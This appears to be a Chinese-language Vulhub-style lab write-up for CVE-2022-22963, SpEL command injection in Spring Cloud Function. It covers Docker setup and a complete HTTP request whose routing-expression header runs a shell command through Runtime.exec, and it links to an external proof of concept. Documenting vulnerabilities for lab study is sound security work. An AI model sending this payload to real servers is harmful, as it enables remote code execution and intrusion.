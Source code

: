 # Spring Cloud Function SpEL表达式命令注入 CVE-2022-22963

## 漏洞描述

Spring Cloud Function 提供了一个通用的模型，用于在各种平台上部署基于函数的软件，包括像 Amazon AWS Lambda 这样的 FaaS（函数即服务，function as a service）平台。

参考链接：

- https://tanzu.vmware.com/security/cve-2022-22963
- https://mp.weixin.qq.com/s/onYJWIESgLaWS64lCgsKdw
- https://github.com/spring-cloud/spring-cloud-function/commit/0e89ee27b2e76138c16bcba6f4bca906c4f3744f

## 环境搭建

Vulhub执行如下命令启动一个使用Spring Cloud Function 3.2.2编写的服务器：

```
docker-compose up -d
```

服务启动后，执行`curl http://your-ip:8080/uppercase -H "Content-Type: text/plain" --data-binary test`即可执行`uppercase`函数，将输入字符串转换成大写。

## 漏洞复现

发送如下数据包，`spring.cloud.function.routing-expression`头中包含的SpEL表达式将会被执行：

```
POST /functionRouter HTTP/1.1
Host: y:8080
Accept-Encoding: gzip, deflate
Accept: */*
Accept-Language: en
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/97.0.4692.71 Safari/537.36
Connection: close
spring.cloud.function.routing-expression: T(java.lang.Runtime).getRuntime().exec("touch /tmp/success")
Content-Type: text/plain
Content-Length: 4

test
```

![image-20220412163215931](./images/image-20220412163215931.png)

`touch /tmp/success`已经成功被执行：

![](images/image-20220412163527748.png)

## 漏洞POC

- Spring-cloud-function-SpEL-RCE：https://github.com/chaosec2021/EXP-POC/tree/main/Spring-cloud-function-SpEL-RCE

